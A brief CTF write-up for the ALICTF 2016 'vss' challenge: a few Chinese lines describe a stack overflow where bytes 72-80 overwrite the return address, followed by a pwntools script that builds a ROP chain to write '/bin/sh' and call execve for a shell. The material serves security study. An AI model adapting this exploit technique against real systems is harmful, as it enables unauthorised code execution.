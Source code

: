 # ALICTF 2016 - Notes

## vss

一開始需要輸入的開頭必須是 py

然後可以給我們輸入 1024 但實際只有 80 個會複製過去，72 - 80 剛好蓋到 ret

所以要想辦法跳到後面去執行

```
#!/usr/bin/env python
from pwn import *
context.arch = 'amd64'
r = process('/tmp/p/a')

bss = 0x6c5db0
trash = 'py' + 'a'*70
pop_rdi = 0x0000000000401823
pop_rsi = 0x0000000000401937
pop_rdx = 0x000000000043ae05
syscall = 0x000000000045f2a5
pop_rax = 0x000000000046f208
add_rsp_0x58 = 0x000000000046f205
mov_drax_rdx = 0x00000000004485ee
payload = flat([pop_rax, bss, pop_rdx, '/bin/sh\x00', mov_drax_rdx])
payload+= flat([pop_rax, 59, pop_rdi, bss, pop_rsi, 0, pop_rdx, 0, syscall])
raw_input("#")
r.sendlineafter(':', trash + p64(add_rsp_0x58) + "a"*8 + payload)

r.interactive()
```